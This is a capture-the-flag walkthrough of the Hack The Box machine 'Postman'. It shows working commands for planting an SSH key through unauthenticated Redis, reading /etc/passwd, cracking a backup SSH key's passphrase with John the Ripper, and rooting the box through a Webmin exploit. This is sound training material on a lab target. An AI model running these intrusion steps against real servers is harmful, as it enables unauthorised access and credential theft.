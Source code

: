 ```yaml
---
layout: writeup
show-avatar: false
redirect_from: /walkthroughs/postman.html
title: Postman
logo: /assets/img/writeups/htb/boxes/postman/postman_logo.png
platform: HTB
category: Boxes
OS: Linux
difficulty: Easy
release: "2 Nov 2019"
creator_name: "TheCyberGeek"
creator_url: "https://app.hackthebox.com/users/114053"
published: "2019-11-09"
---
```


<h2 align="center">Enumeration</h2>

Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Fri Nov  8 21:44:03 2019 as: nmap -sC -sV -p- -Pn -oN nmapscan.txt 10.10.10.160
Nmap scan report for 10.10.10.160
Host is up (0.088s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  8 21:50:09 2019 -- 1 IP address (1 host up) scanned in 366.53 seconds

```

We see a number of open ports. Checking what is on port 80 with our browser doesn't show us much of interest

![Cyber Geek](/assets/img/writeups/htb/boxes/postman/postman_webpage.png)

Checking searchsploit for webmin 1.910 we see that there is an RCE with root privileges as detailed by CVE-2019-12840

https://www.cvedetails.com/cve/CVE-2019-12840/

however that requires a credentialed user, which we don't have. If we turn our attention to the redis instance running on port 6379 tho, we see that if we can access it, it is vulnerable to this exploit

https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

So lets check

```
root@kali:~/HTB/Boxes/Postman# telnet 10.10.10.160 6379
Trying 10.10.10.160...
Connected to 10.10.10.160.
Escape character is '^]'.
echo "HILBERT"
$7
HILBERT
```

Bingo! So our plan now is to try and write our SSH key onto the server and login. We need to add some whitespace to our key and then write that into Redis. We can use **redis-cli** for this. 

```
root@kali:~/HTB/Boxes/Postman# (echo -e "\n\n"; cat id_rsa_.pub echo -e "\n\n") > key.txt
root@kali:~/HTB/Boxes/Postman# redis-cli -h 10.10.10.160 flushall
OK
root@kali:~/HTB/Boxes/Postman# cat key.txt | redis-cli -h 10.10.10.160 -x set crackit
```

now we can logon to redis, and try and write our SSH key into a users .ssh folder. The default folder for redis is /var/lib/redis so if a .ssh folder has been created for redis user we can write to that.

```
root@kali:~/HTB/Boxes/Postman# redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

looks like it has bee. Now lets SSH in

```
root@kali:~/HTB/Boxes/Postman# ssh -i id_rsa_ redis@10.10.10.160
<...>
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$                
```

First lets cat the /etc/passwd file so we can get the other users

```
redis@Postman:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
<...>
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```

 We don't have write access to /home/Matt/.ssh unfortunately so we can't duplicate our previous exploit to gain access to user Matt. Enumerating the machine further we find a backup of an SSH key.

```
redis@Postman:~$ ls /opt
id_rsa.bak
```

Lets copy this, and see if we can crack the password on it. To do this we will use a program called John the Ripper. First we need to convert the key into a suitable format. For this we will use **ssh2john**, then we can run john the ripper on it with a wordlist to try and crack it.

```
root@kali:~/HTB/Boxes/Postman# python /usr/share/john/ssh2john.py id_rsa.bak > id_rsa.hash
root@kali:~/HTB/Boxes/Postman# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:12 DONE (2019-11-12 00:48) 0.07710g/s 1105Kp/s 1105Kc/s 1105KC/sa6_123..*7¡Vamos!
Session completed
```

We cracked the password, which is "computer2008". Let's see if we can login to Matt with this

```
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$ cat /home/Matt/user.txt
517adXXXXXXXXXXXXXXXXXX08a2f3c
```

Success! We will also find that we can login to webmin on port 10000 with Matt:computer2008

<h3 align="center">On To Root</h3>

So now with valid credentials we can use CVE-2019-12840 which has a metasploit module. Make sure to set SSL to true as port 10000 is using https

![root](/assets/img/writeups/htb/boxes/postman/postman_root.png)

we can now access the root.txt flag.
